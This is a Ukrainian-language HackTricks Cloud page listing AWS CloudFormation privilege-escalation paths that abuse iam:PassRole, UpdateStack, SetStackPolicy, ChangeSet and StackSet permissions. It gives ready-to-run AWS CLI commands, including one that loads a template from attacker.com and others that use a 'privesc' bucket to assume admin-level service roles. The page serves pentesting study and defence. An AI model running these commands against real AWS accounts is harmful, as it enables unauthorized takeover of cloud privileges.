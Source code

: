 # AWS - Підвищення привілеїв Cloudformation

{% hint style="success" %}
Вивчайте та практикуйте хакінг AWS: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Школа хакінгу HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Вивчайте та практикуйте хакінг GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Школа хакінгу HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поширюйте хакерські трюки, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв GitHub.

</details>
{% endhint %}

## cloudformation

Для отримання додаткової інформації про cloudformation перегляньте:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Атакувальник з цими дозволами **може підвищити привілеї**, створивши **стек CloudFormation** зі спеціальним шаблоном, розміщеним на своєму сервері, для **виконання дій в межах дозволів вказаної ролі:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
На наступній сторінці ви знайдете **приклад використання** з додатковим дозволом **`cloudformation:DescribeStacks`**:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Потенційний вплив:** Підвищення привілеїв до обраної ролі служби cloudformation.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

У цьому випадку ви можете **зловживати існуючим стеком cloudformation**, щоб оновити його та підвищити привілеї, як у попередньому сценарії:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
Дозвіл `cloudformation:SetStackPolicy` може бути використаний для **надання собі дозволу `UpdateStack`** над стеком та виконання атаки.

**Потенційний вплив:** Підвищення привілеїв до ролі служби cloudformation, вказаної.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Якщо у вас є цей дозвіл, але **немає `iam:PassRole`**, ви все ще можете **оновлювати використані стеки** та зловживати **IAM-ролями, які вже прикріплені**. Перевірте попередній розділ для прикладу експлойту (просто не вказуйте жодної ролі при оновленні).

Дозвіл `cloudformation:SetStackPolicy` може бути використаний для **надання собі дозволу `UpdateStack`** над стеком та виконання атаки.

**Потенційний вплив:** Підвищення привілеїв до ролі служби cloudformation, яка вже прикріплена.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Атакуючий з дозволами на **передачу ролі та створення та виконання ChangeSet** може **створити/оновити новий стек cloudformation та зловживати ролями служби cloudformation** так само, як з CreateStack або UpdateStack.

Наступний експлойт є **варіацією**[ **одного з CreateStack**](./#iam-passrole-cloudformation-createstack) використовуючи **дозволи ChangeSet** для створення стеку.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
Дозвіл `cloudformation:SetStackPolicy` може бути використаний для **надання собі дозволів `ChangeSet`** над стеком та виконання атаки.

**Потенційний вплив:** Підвищення привілеїв до ролей служби cloudformation.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Це схоже на попередній метод без передачі **IAM ролей**, тому ви можете просто **зловживати вже прикріпленими**, просто змініть параметр:
```
--change-set-type UPDATE
```
**Потенційний вплив:** Підвищення привілегій до ролі обслуги cloudformation, яка вже прикріплена.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Зловмисник може зловживати цими дозволами для створення/оновлення StackSets для зловживання довільними ролями cloudformation.

**Потенційний вплив:** Підвищення привілегій до ролей обслуги cloudformation.

### `cloudformation:UpdateStackSet`

Зловмисник може зловживати цим дозволом без дозволу passRole для оновлення StackSets для зловживання прикріпленими ролями cloudformation.

**Потенційний вплив:** Підвищення привілегій до прикріплених ролей cloudformation.

## Посилання

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

